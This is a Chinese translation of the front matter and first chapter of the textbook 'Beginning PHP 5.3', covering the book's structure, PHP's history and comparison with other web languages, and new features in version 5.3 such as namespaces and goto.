# PHP 5.3 入门指南


## 关于作者

**Matt Doyle**，生长于英格兰，很早就发现了计算机的乐趣，多亏他妈妈明智地决定投资一台旧款的自组装电脑，竟有惊人的 4K 内存。从那以后，他一发不可收拾，获得了计算机科学学士学位，并进入 IT 行业。

在不同公司担任 IT 经理、C 程序员、软件测试员、Web 设计师和 Web 开发者等不同职务后，Matt 决定是时候创业了。1997 年，他联合创立了 ELATED（`www.elated.com`），这是一家致力于帮助人们构建优秀网站的公司。

Matt 最初使用 C、Perl 和 JavaScript 进行 Web 开发，多年来还使用过包括 Java、ASP 和 Python 在内的其他一些 Web 编程语言。PHP 是他构建动态网站时目前的首选语言。

2002 年，厌倦了英格兰寒冷的天气，他与妻子 Cat 一起退隐到澳大利亚悉尼北部海滩地区阳光明媚的海岸。他们现在和儿子 Isaac 一起生活在新南威尔士州南部高地（讽刺的是，那里的天气也很像英格兰）。

## 致谢

- **执行编辑**：Carol Long
- **副总裁兼执行集团出版商**：Richard Swadley
- **开发编辑**：Ed Connor
- **副总裁兼执行出版商**：Barry Pruett
- **技术编辑**：Ben Schupak
- **副出版商**：Jim Minatel
- **制作编辑**：Rebecca Anderson
- **封面项目协调员**：Lynsey Stanford
- **文字编辑**：Kim Cofer
- **校对员**：Nate Pitts, Word One
- **编辑经理**：Mary Beth Wakefield
- **索引编制员**：J & J Indexing
- **制作经理**：Tim Tate
- **封面图像**：© Purestock/Punchstock


## 致谢

如果没有我的妻子 Cat 和我的 ELATED 伙伴 Simon 的帮助与支持，这本书不可能完成。非常感谢你们两位所做的一切。还要感谢 Wiley 的编辑和经理们——特别是 Ed Connor 和 Jenny Watson——为将本书打造成形所付出的辛勤努力。


## Introduction

欢迎阅读《Beginning PHP 5.3》！本书将教你如何使用 PHP（当今最流行的 Web 编程语言之一）构建交互式网站和应用程序。使用 PHP，你可以创建从简单的表单到邮件脚本，一直到 Web 论坛应用程序、博客平台、内容管理系统，或者下一个伟大的 Web 2.0 现象。可能性是无限的！

在编程语言中，PHP 很容易学习。不过，它也是一门非常庞大的语言，拥有数百个内置函数，以及通过 PHP 引擎的插件可用的数千个其他函数。本书并不试图带你了解 PHP 功能的每一个角落。相反，本书旨在让你掌握语言中最有用的方面——即你 99% 的时间都会用到的内容——并教你如何创建稳健、高质量的 PHP 应用程序。

## Who This Book Is For

本书适合任何刚开始学习 PHP 编程的人。如果你之前使用过其他编程语言（如 Java、C# 或 Perl），你可能会很快掌握前几章的概念；不过，本书假设你没有编程或构建 Web 应用程序的经验。

话虽如此，由于 PHP 主要是一种 Web 技术，如果你至少了解一些其他 Web 技术（尤其是 HTML 和 CSS）会有所帮助。幸运的是，这两种技术很容易上手。你可以在以下网址找到许多有用的 HTML 和 CSS 教程：

- http://www.elated.com/articles/cat/authoring/ — HTML、XHTML 和 CSS 教程（许多由本书作者编写）
- http://www.w3schools.com/html/html_intro.asp — 带你了解 HTML 基础知识，一路上有大量“亲自试一试”的示例
- http://www.w3schools.com/css/css_intro.asp — 让你快速掌握 CSS（层叠样式表）

许多 Web 应用程序使用数据库来存储数据，本书包含三个关于使用 MySQL 数据库的章节。再次说明，如果你已经熟悉数据库（尤其是 MySQL），你将能够快速浏览这些章节。但是，即使你生平从未接触过数据库，阅读这些章节后仍然应该能够掌握工作知识。

## What This Book Covers

本书让你广泛了解 PHP 语言及其相关技术。你将探索广泛的主题，包括：

- 如何安装和配置 PHP 引擎
- 语言基础知识，例如变量、循环、字符串和数组
- 函数以及模块化代码的概念
- 如何开发面向对象的应用程序
- 创建 Web 表单以及处理表单的 PHP 脚本
- 与浏览器 Cookie 交互并创建会话来存储访问者数据
- 文件和目录处理
- 编写数据库驱动的应用程序
- 处理日期和时间、Web 服务器环境以及电子邮件
- 使用 PHP 创建图形
- 正则表达式的方方面面
- 如何使用 PHP 读取、写入和创建 XML 文档
- 良好的编程实践，包括编码标准、文档、安全问题、错误处理、代码分离和代码测试
- 如何编写可以从命令行运行的 PHP 脚本

此外，如你所料，本书还涵盖了 PHP 5.3 版本中添加的新功能。不过，如果你仍在使用较旧版本的 PHP，请不要慌张——本书的绝大部分内容适用于所有版本的 PHP。

## How This Book Is Structured

本书的章节按逻辑顺序排列，首先解释基本编程概念，然后在后续章节中基于这些概念讲解更高级的主题。作为一般规则，每一章都建立在之前章节所获得的知识之上，因此你不需要在书中来回跳转太多。但是，如果你已经熟悉 PHP 的某些基本概念，你会发现当你寻找特定信息时，可以轻松跳转到后续章节。

每一章末尾都包含一些练习，用于测试你的知识并扩展章节中介绍的一些想法。你可以在附录 A 中找到练习的解答。

本书分为三个主要部分。第一部分“Getting Up and Running with PHP”更详细地介绍了 PHP，并指导你安装 PHP 并编写简单的 PHP 脚本。第二部分“Learning the Language”教你 PHP 语言的基础知识——编写 PHP 脚本的必读内容。最后，第三部分“Using PHP in Practice”展示了如何创建真实世界的 PHP 应用程序，涵盖广泛的概念，并包含大量有用的示例脚本。

以下是本书的章节分解，帮助你决定如何最好地学习它。

第 1 章将向你介绍 PHP。你将了解 PHP 与其他 Web 编程语言的比较，回顾 PHP 多年来的发展，并简要探索 PHP 5.3 版本中的新功能。

第 2 章将指导你在 Ubuntu Linux、Windows 和 Mac OS X 上安装 PHP 引擎；探讨你可以安装或使用 PHP 的其他方式；并向你展示如何编写简单的 PHP 脚本。

第 3 章探讨一些基本的 PHP 语言概念。你将了解变量、数据类型、运算符、表达式和常量。

第 4 章向你展示如何通过创建决策和循环来更改脚本的流程。你将探索 if、else 和 switch 语句；三元运算符；以及 do、while、for、break 和 continue 语句。你还将学习如何嵌套循环，以及如何将决策和循环与 HTML 块混合使用。

第 5 章探讨 PHP 对字符串（字符序列）的处理。你将学习如何创建字符串；如何从字符串中检索字符；以及如何使用 strlen()、substr()、strstr()、strpos()、str_replace() 和 printf() 等函数来操作字符串，仅举几例。

第 6 章介绍数组——可以容纳多个值的变量。你将了解索引数组和关联数组之间的区别，并了解如何创建数组并访问其各个元素。本章余下部分侧重于数组操作，包括 print_r()、array_slice()、count()、sort()、array_merge() 和 list() 等函数。你还将学习如何创建 foreach 循环，以及如何处理多维数组。

第 7 章探讨函数的概念——可以反复使用的代码块。你将了解如何调用内置函数，以及如何使用变量函数。你还将学习如何创建自己的函数，包括定义参数、返回值、理解作用域以及使用匿名函数。引用和递归等其他与函数相关的主题也将被探讨。

第 8 章深入探讨面向对象编程的世界。你将了解面向对象方法的优势，并学习如何构建类、属性和方法，以及如何创建和使用对象。你还将探索更高级的主题，例如重载、继承、接口、构造函数和析构函数、自动加载以及命名空间。

第 9 章向你展示如何使用 PHP 创建交互式 Web 表单。你将学习如何创建 HTML 表单、如何在 PHP 中捕获表单数据，以及如何使用 PHP 生成动态表单。你还将探索文件上传表单和页面重定向。

第 10 章探讨如何在页面浏览之间保持应用程序的状态。你将探索三种不同的策略：查询字符串、Cookie 和 PHP 会话。本章包含一个示例用户登录系统。

第 11 章介绍 PHP 的文件和目录处理函数。你将学习如何打开和关闭文件；如何获取有关文件的更多信息；如何从文件中读取和写入文件；如何使用文件权限；如何复制、重命名和删除文件；以及如何操作目录。本章包含一个简单的文本编辑器作为示例。

第 12–14 章总体介绍数据库，并特别介绍 MySQL，并展示如何使用 PHP 处理 MySQL 数据库。你将学习一些数据库和 SQL 理论；了解如何从 PHP 连接到 MySQL；并学习如何检索、插入、更新和删除 MySQL 数据库中的数据。


## Introduction

第 15 章介绍 PEAR（PHP 扩展和应用程序仓库）。它是一个大型可复用代码模块集合，可以真正帮助加速您的应用程序开发。您将学习如何安装和使用 PEAR 包，并探索三个有用的包：Net_UserAgent_Detect、HTML_Table 和 HTML_QuickForm。

第 16 章探讨您的 PHP 应用程序与外部世界交互的各种方式。您将详细学习日期和时间处理，包括各种有用的内置日期函数，以及 DateTime 和 DateTimeZone 类。您还将学习如何使用 HTTP 请求和响应头、如何检索 Web 服务器信息，以及如何在脚本中发送电子邮件。

第 17 章展示如何使用 PHP 实时生成图形。您将学习计算机图形学基础，然后学习如何创建新图像以及修改现有图像。在此过程中，您将探索颜色、绘图函数、图像格式、透明度、不透明度以及在图像中生成文本。

第 18 章探讨正则表达式的强大功能。这些巧妙的模式匹配工具允许您在字符串中搜索非常特定的文本模式。本章介绍正则表达式语法，并展示如何使用 PHP 的正则表达式函数来搜索和替换文本模式。包含大量示例以使概念清晰。

第 19 章探讨 XML（可扩展标记语言），并展示如何在 PHP 脚本中操作 XML。您将了解 XML 及其用途，并学习使用 PHP 读取和写入 XML 的各种方法，包括 XML Parser、XML DOM 扩展和 SimpleXML。您还将简要了解 XML 样式表，包括 XSL 和 XSLT。

第 20 章通过探讨良好的编程实践来收尾本书。您将学习编写模块化代码的策略；如何设计和实施编码标准以保持一致性；记录代码的方法；如何增强应用程序以抵御攻击；如何优雅地处理错误；为什么将应用程序逻辑与表示逻辑分开很重要；以及测试应用程序代码健壮性的方法。

附录 A 包含本书中各处练习的答案。

附录 B 探讨如何配置 PHP，并列出所有可用的配置指令。

附录 C 探讨 PHP 支持的一些 MySQL 替代数据库。

附录 D 展示如何使用 PHP 编写命令行脚本，进一步增强您应用程序的功能和灵活性。

### 使用本书所需的内容

要完成本书中的示例，安装或获取运行 PHP 的 Web 服务器访问权限会很有帮助。因为 PHP 在大多数操作系统上都运行良好，包括 Windows、Linux 和 Mac OS X，所以您在自己的环境中安装带有 PHP 引擎的 Web 服务器应该不会有任何麻烦。第 2 章包含在 Windows、Linux 和 Mac 上安装 PHP 和 Apache Web 服务器的简易说明。您也可以使用远程 Web 服务器（例如，您的 Web 托管提供商上的服务器）来运行示例脚本。

尽管本书涵盖 PHP 5.3，但撰写时可用的生产版本是 5.2。因此，本书的某些部分（特别是第 2 章）包含对 5.2 版本的引用。但是，只要您安装的 PHP 版本高于 5.1——无论是 5.2、5.3 还是更高版本——就没问题。

您需要一个文本编辑器来创建和编辑 PHP 脚本，且有许多不错的免费编辑器可用。Windows 内置了记事本编辑器，适合小型项目。在 Mac 上，您可以使用 TextEdit，或者 vi 或 Emacs 等命令行编辑器。同样，在 Linux 上，您可以使用 vi、Emacs 或另一个命令行编辑器，或者安装适用于 Linux 的图形文本编辑器之一，例如 Bluefish (http://bluefish.openoffice.nl/)。

### 使用命令行

本书的某些部分——特别是数据库章节以及附录 D——使用命令行界面（或 "shell"）来输入命令和运行程序。这是与您的系统通信的强大工具。

在丰富的图形环境普及之前，与计算机交互的唯一方法是一次输入一行命令。您想运行程序？没有可点击的图标——您需要输入程序的名称。

许多程序仍然使用命令行界面。一方面，以这种方式编写它们更简单。而且，许多人仍然发现与命令提示符交互比使用鼠标驱动的窗口环境更容易。

要访问命令行，您需要执行以下操作之一：

- 在 Windows 上，打开“开始”菜单，选择“所有程序”➔“附件”➔“命令提示符”。或者，按 Windows+R 调出“运行”对话框，输入 cmd，然后单击“确定”。
- 在 Ubuntu Linux 上，选择“应用程序”➔“附件”➔“终端”。（在其他 Linux 发行版或 UNIX 变体中，查找名为 console、terminal、konsole、xterm、eterm 或 kterm 等的程序。这些都是广泛使用的 shell 程序，可在大量基于 UNIX 的系统上找到。）
- 在 Mac OS X 上，在 Finder 中双击“应用程序”➔“实用工具”➔“终端”应用。

调用界面后，您可能会面对一个几乎空白的窗口，其中仅包含类似下面的一段文本：

```
$
%
C: />
#
bash$
```

这是一个 *命令提示符* 或 *shell 提示符*，它仅用于告诉您界面已准备好接收指令——实际上是在提示您输入命令。提示符的外观并不重要，重要的是您在它出现时能够识别出来。在本书中，提示符指定如下：

```
$
```

本书将向您显示提示符 ($) 后需要输入的任何命令。随后是计算机生成的输出。例如：

```
$ ./hello.php
Hello, world!
$
```

有时会显示不同的提示符。例如，如果您正在使用 MySQL 命令行程序，将显示以下提示符：

```
mysql>
```

### 约定

为了帮助您充分利用文本并跟踪正在发生的事情，我们在整本书中使用了一系列约定。

### 亲自动手

“亲自动手”部分包含一个您应遵循本书文本来完成的练习。

该部分包含一个或多个代码清单、如何运行脚本的说明，以及通常显示脚本运行效果的屏幕截图。

### 工作原理

每个“亲自动手”之后，您输入的代码将被详细解释。

> 与当前讨论相关的注释、提示、建议、技巧和旁注会以斜体形式突出显示，如下所示。

关于文本中的样式：

- 我会在引入新术语和重要单词时加以突出显示。
- 我会这样显示键盘敲击：Ctrl+A。
- 我会在文本中这样显示文件名、URL 和代码：hello.php。
- 我会以两种不同的方式呈现代码：

```
I use gray highlighting to highlight new and important code.
I use a monofont type with no highlighting for code that's less important, or
that has been shown before.
```

### 源代码

在学习本书示例时，您可以选择手动输入所有代码，或使用随书提供的源代码文件。本书中使用的所有源代码均可在 http://www.wrox.com 上下载。进入网站后，只需找到本书的标题（可以使用搜索框或标题列表之一），然后在书籍详情页上单击“下载代码”链接，即可获取本书的所有源代码。

由于许多书籍的标题相似，按 ISBN 搜索可能最简单；本书的 ISBN 是 978-0-470-41396-8。

下载代码后，只需使用您喜欢的压缩工具将其解压缩。或者，您可以访问 Wrox 主要代码下载页面 http://www.wrox.com/dynamic/books/download.aspx，查看本书及其他所有 Wrox 图书的可用代码。

### 勘误

我们会尽一切努力确保文本或代码中没有错误。然而，没有人是完美的，错误确实会发生。如果您在我们的某本书中发现错误，例如拼写错误或有缺陷的代码，我们将不胜感激地接收您的反馈。通过提交勘误，您可能会为另一位读者节省数小时的沮丧，同时也将帮助我们提供更高质量的信息。

要查找本书的勘误页面，请访问 www.wrox.com，并使用搜索框或标题列表之一查找书名。然后，在书籍详情页上，单击“图书勘误”链接。在此页面上，您可以查看为此书提交并由 Wrox 编辑发布的所有勘误。包含每本书勘误链接的完整图书列表也可在 www.wrox.com/misc-pages/booklist.shtml 上找到。

如果您在“图书勘误”页面上没有发现“您”的错误，请访问 www.wrox.com/contact/techsupport.shtml 并填写表格，将您发现的错误发送给我们。我们会检查信息，如果合适，会在图书的勘误页面上发布消息，并在后续版本中修复该问题。


## p2p.wrox.com

对于作者和同行讨论，请加入 p2p.wrox.com 上的 P2P 论坛。论坛是一个基于 Web 的系统，供您发布与 Wrox 图书及相关技术有关的消息，并与其他读者和技术用户交互。论坛提供订阅功能，可在有新帖子发布时向您发送您选择感兴趣的主题的电子邮件。Wrox 作者、编辑、其他行业专家以及您的同行读者都出现在这些论坛上。

在 `http://p2p.wrox.com` 上，您会发现许多不同的论坛，它们不仅在您阅读本书时能提供帮助，在您开发自己的应用程序时也同样有用。要加入论坛，只需执行以下步骤：

- 1. 访问 p2p.wrox.com 并单击注册链接。
- 2. 阅读使用条款并单击同意。
- 3. 填写加入所需的信息以及您希望提供的任何可选信息，然后单击提交。
- 4. 您将收到一封电子邮件，其中包含有关如何验证您的帐户并完成加入流程的信息。

*您可以在不加入 P2P 的情况下阅读论坛中的消息，但要发布您自己的消息，您必须加入。*

加入后，您可以发布新消息并回复其他用户发布的消息。您可以随时在网上阅读消息。如果您希望将特定论坛的新消息发送到您的电子邮件，请单击论坛列表中论坛名称旁边的“订阅此论坛”图标。

有关如何使用 Wrox P2P 的更多信息，请务必阅读 P2P 常见问题解答，以了解有关论坛软件工作原理以及许多特定于 P2P 和 Wrox 图书的常见问题的解答。要阅读常见问题解答，请单击任何 P2P 页面上的常见问题解答链接。

## PHP 5.3 入门

# 第一部分：使用 PHP 入门

- 第 1 章：PHP 简介
- 第 2 章：您的第一个 PHP 脚本

## PHP 简介

欢迎来到 PHP 的世界，这是 Web 上最流行的编程语言之一。根据 Netcraft (www.netcraft.com) 的数据，截至 2007 年 7 月，PHP 正在超过 2000 万台 Web 服务器上运行 (http://www.php.net/usage.php)。撰写本文时，根据 TIOBE (http://www.tiobe.com/index.php/content/paperinfo/tpci/)，它是世界上第四流行的编程语言，仅次于 Java、C 和 C++。随着 5.3 版本的推出，学习 PHP 从未像现在这样合适。

在本章中，您将：

- 总体上温和地介绍 PHP，特别是 PHP 5.3 的新特性
- 了解 PHP 是什么、它可以用于什么，以及它与其他动态 Web 技术相比如何
- 回顾 PHP 的历史，以便您可以看到它多年来是如何发展的，从其卑微的起步到今天的丰富 Web 开发框架

### PHP 是什么？

PHP 是一种用于构建动态交互式 Web 站点的编程语言。一般来说，PHP 程序在 Web 服务器上运行，并在请求时向访问者提供 Web 页面。PHP 的一个关键特性是，您可以将 PHP 代码嵌入 HTML Web 页面中，从而使您能够非常轻松地快速创建动态内容。

“动态交互式 Web 站点”这句话究竟是什么意思？动态 Web 页面是指其内容在每次查看页面时都可以自动更改的页面。与此形成对比的是静态 Web 页面，例如简单的 HTML 文件，每次显示时都看起来相同（至少在下次编辑页面之前是如此）。同时，交互式 Web 站点是指响应访问者输入的站点。Web 论坛是一个很好的示例——用户可以向论坛发布新消息，这些消息随后会在站点上显示供所有人查看。另一个简单的示例是“联系我们”表单，访问者通过填写并发送表单与页面进行交互，该表单随后会被电子邮件发送给 Webmaster。

*PHP 代表 PHP: Hypertext Preprocessor，这让您很好地了解了它的核心目的：处理信息并生成超文本 (HTML) 作为结果。（开发者喜欢递归缩写，而 PHP: Hypertext Preprocessor 就是一个很好的示例。）*

PHP 是一种 *服务器端脚本语言*，这意味着 PHP 脚本（或程序）通常在 Web 服务器上运行。（*客户端脚本语言* 的一个很好的示例是 JavaScript，它通常在 Web 浏览器中运行。）此外，PHP 是一种 *解释型语言*——每次运行 PHP 脚本时，都会由 PHP 引擎对其进行处理。

在 Web 服务器上运行 PHP 脚本的过程如下：

- 1. 访问者通过单击链接或将页面的 URL 输入浏览器地址栏来请求 Web 页面。访问者可能同时向 Web 服务器发送数据，可以使用嵌入在 Web 页面中的表单，也可以通过 AJAX（异步 JavaScript 和 XML）。
- 2. Web 服务器识别出请求的 URL 是一个 PHP 脚本，并指示 PHP 引擎处理并运行该脚本。
- 3. 脚本运行，完成后通常会将 HTML 页面发送到 Web 浏览器，访问者随后在屏幕上看到该页面。

当 PHP 脚本运行时，有趣的事情就发生了。因为 PHP 非常灵活，PHP 脚本可以执行许多有趣的任务，例如：

- 读取并处理访问者发送的 Web 表单内容
- 在 Web 服务器上读取、写入和创建文件
- 处理存储在 Web 服务器上的数据库中的数据
- 从其他 Web 站点和馈送中抓取并处理数据
- 生成动态图形，例如图表和处理过的照片

最后，处理完成后，它可以将自定义的 HTML Web 页面发送回访问者。

在本书中，您将学习如何编写脚本来完成所有这些任务以及更多内容。

所有这些出色的功能意味着，您可以使用 PHP 创建您能梦想的几乎任何类型的动态 Web 应用程序。PHP 脚本的常见示例包括：

- 允许访问者发布消息和讨论话题的 Web 论坛
- 让人们搜索 Web 站点或数据库内容的搜索引擎
- 使访问者能够在投票和调查中投票的非正式投票脚本
- 内容管理系统和博客，使 Webmaster 能够以最少的技术知识轻松创建站点
- Webmail 应用程序，允许人们使用 Web 浏览器发送和接收电子邮件
- 在线商店，允许购物者通过 Internet 购买产品和服务

Web 脚本无疑是 PHP 成功的基础，但这不是使用该语言的唯一方式。命令行脚本（在 PHP 4 中引入）是 PHP 的另一种常见应用。（本主题在本书末尾的附录 D 中介绍。）使用 GTK（GNOME 工具包）进行客户端图形用户界面应用程序开发是另一种方式。

### 为什么使用 PHP？

关于 PHP 最好的一点是，支持它的 Internet 服务提供商 (ISP) 和 Web 托管公司数量庞大。今天，数十万开发者正在使用 PHP，考虑到据报道有数百万个站点安装了 PHP，因此拥有如此多的用户也不足为奇。

PHP 的另一个出色特性是它是跨平台的——您可以在 Windows、Linux、FreeBSD、Mac OS X 和 Solaris 等系统上运行 PHP 程序。不仅如此，PHP 引擎可以与所有常见的 Web 服务器集成，包括 Apache、Internet Information Server (IIS)、Zeus 和 lighttpd。这意味着您可以在一种环境下开发和测试 PHP Web 站点，然后将其部署到不同类型的系统上，而无需更改大量代码。此外，如果您需要，将 PHP Web 站点移至另一个服务器平台也非常容易。

PHP 与其他常见的 Web 编程技术相比如何？撰写本文时，以下技术很普遍：

- ASP (Active Server Pages)：这项历史悠久的 Microsoft 技术自 1997 年以来一直存在，是最早与 Web 服务器紧密集成的 Web 应用程序技术之一，从而实现了快速性能。ASP 脚本通常使用 VBScript 编写，这是一种源自 BASIC 的语言。这与 PHP 更像 C 的语法形成对比。尽管两种语言都有其拥护者，但我个人发现，在 PHP 中编写结构化、模块化的代码比在 VBScript 中更容易。

- ASP.NET：这是 ASP 的最新版本，尽管实际上它是从头重建的。它实际上是一套您可以用来构建 Web 站点的库框架，您可以选择使用的语言，包括 C#、VB.NET (Visual Basic) 和 J# (Java)。因为 ASP.NET 为您提供了大量用于创建 HTML 表单和访问数据库表等任务的代码库，所以您可以非常快速地启动并运行 Web 应用程序。PHP 虽然拥有非常丰富的标准函数库，但并未像 ASP.NET 那样为您提供结构化的框架。另一方面，PHP 有许多免费的应用程序框架和库可用，例如 PEAR（本书后面将讨论）和 Zend Framework。许多人会认为 C# 是一种比 PHP 更好、更有条理的编程语言，尽管 C# 可以说更难学习。ASP.NET 的另一个优势是 C# 是一种编译型语言，通常这意味着它比 PHP 的解释型脚本运行速度快（尽管也有 PHP 编译器可用）。

*与 PHP 相比，ASP 和 ASP.NET 还有另外几个缺点。首先，它们具有商业许可证，这可能意味着需要在服务器软件上花费额外的资金，因此托管通常也更昂贵。其次，ASP 和 ASP.NET 与 Windows 平台的绑定相当紧密，而列表中的其他技术则具有更强的跨平台性。*


# 第一部分：使用 PHP 入门

- Perl：Perl 是最早用于创建动态网页的语言之一，最初是通过 CGI 脚本实现，后来通过 Apache mod_perl 模块和用于 IIS 的 ActivePerl 等技术与 Web 服务器紧密集成。虽然 Perl 是一种强大的脚本语言，但比 PHP 更难学。它也比 PHP 更偏向通用编程语言，尽管 Perl 的 CPAN 库包含一些用于 Web 开发的优秀模块。

- Java：与 Perl 类似，Java 也是一种常用于 Web 应用程序开发的通用编程语言。得益于 JSP（JavaServer Pages）和 Servlet 等技术，Java 是构建大规模、健壮 Web 应用程序的绝佳平台。借助 Apache Tomcat 等软件，您可以在几乎任何服务器平台上轻松构建和部署基于 Java 的网站，包括 Windows、Linux 和 FreeBSD。与 PHP 相比，Java 的主要缺点是学习曲线相当陡峭，即使是构建一个简单的网站也需要编写大量代码（不过 JSP 在这方面帮助很大）。相比之下，PHP 是一种更容易学习的语言，使用 PHP 快速搭建基本网站也更快。Java 的另一个缺点是很难找到支持 JSP 的 Web 托管公司，而几乎所有托管公司都提供 PHP 托管。

- Python：Python 概念诞生于 20 世纪 80 年代末，是另一种通用编程语言，现在常用于构建动态网站。虽然该语言本身内置的 Web 特定功能不多，但有许多有用的模块和框架（如 Zope 和 Django）可供使用，使构建 Web 应用程序相对轻松。许多热门网站（如 Google 和 YouTube）都是使用 Python 构建的，Python Web 托管也开始变得越来越普遍（尽管远不如 PHP 托管普遍）。您甚至可以使用 Google App Engine 在 Google 的服务器上构建和托管 Python 应用。总体而言，Python 是一种非常好的语言，但 PHP 目前要流行得多，并且拥有更多用于构建网站的内置功能。

- Ruby：与 Python 类似，Ruby 也是一种通用编程语言，近年来在 Web 开发者中获得了广泛关注。这在很大程度上归功于优秀的 Ruby on Rails 应用程序框架，它使用模型-视图-控制器（MVC）模式，并结合 Ruby 广泛的面向对象编程特性，使得快速构建完整的 Web 应用程序变得容易。与 Python 一样，Ruby 正在迅速成为 Web 开发者的热门选择，但目前 PHP 更加流行。

- ColdFusion：与 ASP 一样，Adobe ColdFusion 是最早可用的 Web 应用程序框架之一，最初发布于 1995 年。ColdFusion 的主要卖点是易于学习，可以让您非常快速地构建 Web 应用程序，并且创建数据库驱动的网站非常简单。另一个优点是它与 Flex 紧密集成，Flex 是另一种 Adobe 技术，可让您构建复杂的基于 Flash 的 Web 应用程序。与 PHP 相比，ColdFusion 的主要缺点包括：它不够流行（因此更难找到托管和开发人员），在某些任务上不如 PHP 灵活，以及运行应用程序的服务器软件可能价格昂贵。（当然，PHP 和 Apache 是免费且开源的。）

总之，在 Web 编程语言方面，PHP 介于两者之间。一方面，它不像 Python 或 Ruby 那样是一种通用编程语言（尽管可以用作通用语言）。这使得 PHP 非常适合其主要工作：构建网站。另一方面，PHP 没有像 ASP.NET 或 Ruby on Rails 这样的完整 Web 应用程序框架，这意味着您需要「从零开始」构建自己的网站（或使用附加扩展、库和框架）。

然而，这种中间地位在一定程度上解释了 PHP 的流行。无需学习框架或导入大量库即可执行基本 Web 任务，这使得该语言易于学习和使用。另一方面，如果您需要库和框架提供的额外功能，它们也随时可用。

PHP 流行的另一个原因是通过 www.php.net 及其镜像站点提供的优秀且详尽的在线文档。

在过去，PHP 因其处理许多事物的方式而受到批评——例如，其主要绊脚石之一是其对象支持的实现方式。然而，自版本 5 以来，PHP 吸取了前辈的教训，并在必要时完全重写了其实现功能的方式。如今，PHP 更是大规模企业开发的有力竞争者，同时也拥有庞大的中小型应用程序基础。

## PHP 的发展历程

虽然 PHP 直到 1998 年左右才开始在 Web 开发者中流行，但它由 Rasmus Lerdorf 早在 1994 年就创建了。PHP 最初是一组用 C 语言编写的简单工具，用于替换 Rasmus 在其个人主页上使用的 Perl 脚本（因此“PHP”缩写的原始含义便源于此）。他于 1995 年向公众发布了 PHP，并将其称为 PHP 版本 2。

1997 年，另外两位开发人员 Zeev Suraski 和 Andi Gutmans 重写了 PHP 的大部分代码，并与 Rasmus 一起于 1998 年 6 月发布了 PHP 3.0 版。到那年年底，PHP 已拥有数万名开发人员，并被用于数十万个网站。

对于 PHP 的下一个版本，Zeev 和 Andi 再次着手重写 PHP 核心，将其命名为“Zend 引擎”（“Zend”命名基于他们的两个名字）。新版本 PHP 4 于 2000 年 5 月发布。此版本进一步改进了 PHP 3，并包括会话处理功能、输出缓冲、更丰富的核心语言以及对更多种类 Web 服务器平台的支持。

尽管 PHP 4 相较于版本 3 有显著改进，但其面向对象编程（OOP）实现仍然相对薄弱。2004 年 7 月发布的 PHP 5 解决了这个问题，增加了私有和受保护的类成员；final、私有、受保护和静态方法；抽象类；接口；以及标准化的构造函数/析构函数语法。

## PHP 5.3 的新增功能

版本 5.3 引入的大多数变更都相对较小，或涉及超出本入门级书籍范围的高级主题。在以下各节中，您将简要了解一些可能对您有意义的更重要的变更，特别是如果您从 PHP 5.2 或更早版本升级的话。

### 命名空间

PHP 5.3 最大的新增功能是对命名空间的支持。这个实用功能可让您避免应用程序不同部分之间或应用程序库之间的命名冲突。

命名空间与硬盘上的文件夹有些相似，因为它们允许您将一组函数、类和常量名称与另一组分开。同一个名称可以出现在多个命名空间中而不会发生冲突。

PHP 5.3 的命名空间功能相当全面，包括对子命名空间和命名空间别名的支持。您将在第 20 章了解有关使用命名空间的更多信息。

### goto 运算符

PHP 5.3 还引入了 goto 运算符，您可以使用它直接跳转到同一文件中的某一行代码。（您只能在当前函数或方法内跳转。）例如：

```
goto jumpToHere;
echo 'Hello';
jumpToHere:
echo 'World';
```

谨慎使用 goto——最好干脆不要使用——因为它会使您的代码难以阅读，并且如果不小心，还会引入棘手的编程错误。但是，在某些情况下它很有用，例如跳出深层嵌套循环。

### Nowdoc 语法

在 PHP 5.3 中，您可以使用 nowdoc 语法引用字符串，这与现有的 heredoc 语法相辅相成。与 heredoc 引用的字符串会被解析（将变量名替换为值等）不同，nowdoc 引用的字符串保持原样。如果您希望在脚本中嵌入一段 PHP 代码，而又不希望代码被任何处理，nowdoc 语法很有用。

有关 nowdoc 和 heredoc 语法的更多信息，请参阅第 5 章。

### 三元运算符的简写形式

三元运算符（在第 4 章中介绍）允许您的代码根据第三个表达式是真还是假，使用一个表达式或另一个表达式的值：

```
( expression1 ) ? expression2 : expression3;
```

在 PHP 5.3 中，您现在可以省略列表中的第二个表达式：

```
( expression1 ) ?: expression3;
```

如果 expression1 为真，则此代码求值为 expression1 的值；否则，求值为 expression3 的值。


## 高级更改

如果您熟悉早期版本的 PHP，或其他编程语言，那么您可能对 PHP 5.3 中的一些新高级特性感兴趣。除了刚才描述的简单变更之外，PHP 5.3 还支持强大的编程构造，例如后期静态绑定（late static bindings），它在处理类时为静态继承增加了大量灵活性，还有闭包（closures），它允许真正的匿名函数。它还引入了一个可选的垃圾回收器，用于清理循环引用。（由于这些是高级主题，本书不会进一步介绍。）

早期 PHP 版本中的一些不良特性——具体来说是 Register Globals、Magic Quotes 和 Safe Mode——自版本 5.3 起已被弃用，并将在 PHP 6 中移除。尝试使用这些特性会导致 E_DEPRECATED 错误（E_DEPRECATED 错误级别也是 5.3 中的新增内容）。

您可以在 http://docs.php.net/migration53 查看 PHP 5.3 变更的完整列表。

## 摘要

本章让您了解了 PHP 的概览，PHP 是当今最流行的 Web 编程语言之一。您了解了 PHP 是什么，并了解了可以使用它构建的 Web 应用程序类型。您还探索了一些 PHP 的替代方案，包括：

- ASP 和 ASP.NET
- Perl
- Java
- Python
- Ruby 和 Ruby on Rails
- ColdFusion

针对每种替代方案，您了解了它与 PHP 的比较情况，并了解到某些技术比其他技术更适合特定类型的动态网站。

在本章的最后几节中，您研究了 PHP 的历史，并探索了版本 5.3 中一些更重要的新特性，例如命名空间和 goto 运算符。掌握了 PHP 语言的这些概览后，您就可以进入第 2 章，编写您的第一个 PHP 脚本了！

## 您的第一个 PHP 脚本

现在您对 PHP 是什么有了一定了解，是时候深入其中，开始编写 PHP 程序了。

要做到这一点，您首先需要访问运行 PHP 的 Web 服务器。本章首先将用简单的术语向您展示如何在计算机上安装以下程序：

- [ ] Apache Web 服务器
- [ ] PHP 引擎
- [ ] MySQL 数据库服务器

在此过程中，您还将了解一些 Web 服务器故障排除知识。

安装过程相当简单；但是，如果您不想在计算机上安装这些程序，可以改为在已为该任务配置好的远程 Web 服务器上运行 PHP 脚本（参见本章后面的“远程运行 PHP”部分）。

一旦 PHP 运行起来，您就可以创建第一个 PHP 脚本。在此过程中，您将学习如何将 PHP 代码嵌入 HTML 网页中，这是 PHP 的基本概念之一。

